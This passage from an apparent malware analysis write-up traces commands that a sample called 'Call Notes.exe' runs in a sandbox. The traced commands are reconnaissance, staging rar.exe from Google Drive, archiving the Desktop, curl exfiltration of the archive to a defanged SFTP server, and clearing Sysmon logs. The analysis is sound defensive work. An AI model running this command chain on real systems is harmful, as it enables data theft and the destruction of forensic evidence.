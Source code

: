 Picture 27: Connection Between Sandbox Machine and C2 Server

![](https://pyaeheinnkyaw.com/wp-content/uploads/2025/09/procmon-network-1024x570.jpg)

Picture 28: Outbound HTTPS Connection in ProcMon

During execution,  `Call Notes.exe`  spawns  `cmd.exe`  and issues a sequence of system and network commands. These actions reflect a structured workflow of tool staging, reconnaissance, collection, exfiltration, and anti-forensics.

**Executed Commands and Intentions:**

```
12:00:51 PM – curl
Invoked for network connectivity testing and/or tool retrieval.

12:01:06 PM – fsutil fsinfo drives
Enumerates logical drives on the system to identify available storage locations.

12:01:26 PM – arp -a
Displays the ARP cache to map local subnet hosts and potential lateral movement targets.

12:01:37 PM – curl -4 ifconfig.co/json
Queries an external service to obtain the system’s public IP address and geolocation data.

12:01:48 PM – ipconfig /all
Collects detailed local network configuration, including IPs, DNS servers, and MAC addresses.

12:02:52 PM – curl  -skL "hxxps[://]drive[.]usercontent[.]google[.]com/download?id=[redacted]&export=download&confirm=t&uuid=[redacted]" -o rar.exe
Downloads rar.exe from Google Drive, staging a compression utility for data collection.

12:03:24 PM – rar a -r heinn.rar C:\Users\heinn\Desktop\*
Archives the contents of the Desktop folder into a RAR archive (heinn.rar) for staging prior to exfiltration.

12:04:32 PM – curl  -u <username>:<password> -m 360 --connect-timeout 10 --retry 36 -s -k -C - -T heinn.rar sftp[://]202[.]59[.]10[.]106/pub/
Exfiltrates the archive to a remote SFTP server using hardcoded credentials.

12:05:02 PM – curl  -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0" --retry 3 -m 60 --connect-timeout 10 -s -k -L -o curl.exe "hxxps[://]drive[.]usercontent[.]google[.]com/download?id=[redacted]&export=download&confirm=t&uuid=[redacted]"
Retrieves an additional copy of curl.exe from Google Drive, likely as redundancy if the native version is unavailable.

12:05:12 PM – curl  -u <username>:<password> -m 360 --connect-timeout 10 --retry 36 -s -k -C - -T heinn.rar sftp[://]202[.]59[.]10[.]106/pub/
Reattempts data exfiltration, demonstrating persistence in ensuring successful transfer.

12:08:36 PM – wevtutil el
Enumerates available Windows event logs.

12:08:36 PM – findstr "sysmon"
Searches for Sysmon logs to identify enhanced monitoring tools in use.

12:09:10 PM – wevtutil cl "Microsoft-Windows-Sysmon/Operational"
Clears Sysmon logs to remove forensic traces of activity.

12:14:09 PM – tasklist /v
Lists all running processes with verbose details, likely for security software or analyst tool detection.

12:14:38 PM – net use
Enumerates mapped network drives, identifying accessible network resources.
```